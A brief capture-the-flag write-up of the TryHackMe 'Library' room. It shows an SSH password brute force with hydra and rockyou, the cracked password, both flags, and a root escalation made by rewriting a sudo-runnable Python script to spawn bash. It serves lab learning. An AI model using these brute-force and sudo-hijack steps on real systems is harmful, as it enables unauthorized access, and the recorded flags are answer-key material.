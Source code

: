 ## **Room:** [Library](https://tryhackme.com/room/bsidesgtlibrary)
---

> **Prompt**
>
> > Read user.txt and root.txt

Host: 10.201.51.214

Open Port: 22,80
Open Directory: /images, /server-status
Som I have noticed that the html is posted by meliodas, so I used brute force to ge the password through ssh:
```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.201.51.214 ssh
```
The password was: iloveyou1
Then, I login into his account and found the first flag of the day: 6d488cbb3f111d135722c33cb635f4ec
Therefore, there was a bak.py, in his profile:
So, based on the preference: https://cryptichacker.github.io/posts/library/
I used sudo -l to get the files that can run by root:
And changed the bak.py value into:
```
import pty;pty.spawn('/bin/bash')
```
This command basically opens a proper interactive Bash shell inside a pseudo-terminal, which upgrades a basic, limited remote shell
And run it like the format what sudo -l gave:
```bash
sudo python /home/meliodas/bak.py
```
Eventually, I successfully entered the root. And got the final flag of the day: e8c8c6c256c35515d1d344ee0488c617







